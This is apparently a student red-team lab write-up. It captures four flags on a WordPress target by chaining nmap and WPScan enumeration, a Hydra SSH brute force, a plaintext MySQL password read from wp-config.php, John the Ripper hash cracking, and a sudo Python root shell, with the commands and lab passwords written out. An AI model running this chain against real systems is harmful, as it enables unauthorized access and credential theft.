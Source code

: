 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

$ nmap -A 192.168.1.0/24
  - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/1.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Improper configured SSH
  - WordPress Enumation
  - Weak Password Implementation
  - No file security permission implemented
  - Use of weak password salted hashes
  - Python root escalation privileges

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploits Used**
      - WPScan to enumerate users of the Target 1 WordPress site
       - wpscan --url http://192.168.1.110 --enumerate u
       - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/2.png)
    - Targeting User Michael
      - Executed Hydra Brute Force Attack
        - The following command was performed:
        - hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh
        - Password: Michael
        - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/3.png)
    - Capturing Flag 1: After SSH Brute Force Attack as Michael I traversed through directories and files.
      - Found Flag1 in  var/www/html folder at root in service.html in a HTML comment below the footer.
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
  - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/4.png)
      - Using these commands
        - cd ../
        - cd /var/www/html
        - ls -l
        - nano service.html
  - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/5.png)
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Same exploit covered in flag1 to gain access
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
        - cd ../
        - cd /var/www
        - find / i-name flag*
        - cat flag2.txt
  - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/6.png)
  - `flag3` : afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Previous exploit covered in flag1 and flag2
      - Captured flag3 Accessing MySQL database
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database
        - the wp-config.php displayed DB_Password in plaintext
        - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/7.png)
        - flag3 was found in wp_posts table in the wordpress database.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - show databases;
          - use wordpress;
          - show tables;
          - select * from wp_posts;
   - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/8.png)
   - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/9.png)
   - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/10.png)
  - `flag4` : 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Use of weak password salted hashes and Python root escalation privileges
      - Captured flag4 by retrieving user credentials from database, executed john the ripper to crack password hash and use Python Escalation Privileges to gain root access
        - Previously gained access to the database credentials as Michael from the sp-config.phpfile, cracking password hashes gathered from MySQL was the next step.
        - These user credentials are stored in the wp_users table of the wordpress database.
        - The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - SELECT ID, user_login, user_pass FROM wp_users;
        - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/11.png)
        - When I exported the hashes, I saved them individually as stevenhash.txt and michaelhash.txt and ran them against John the Ripper to crack the hashes.
          - Command:
            - john stevenhash.txt
            - john michaelhash.txt; the execution of performing the john the ripper kept on going; but we already had the password from the previous activity.
            - [alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/12.png)
          - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
          - Command:
            - ssh steven@192.168.1.110
            - pw:pink84
            - sudo -l
            - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
            - cd /root
            - ls
            - cat flag4.txt
      - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/13.png)
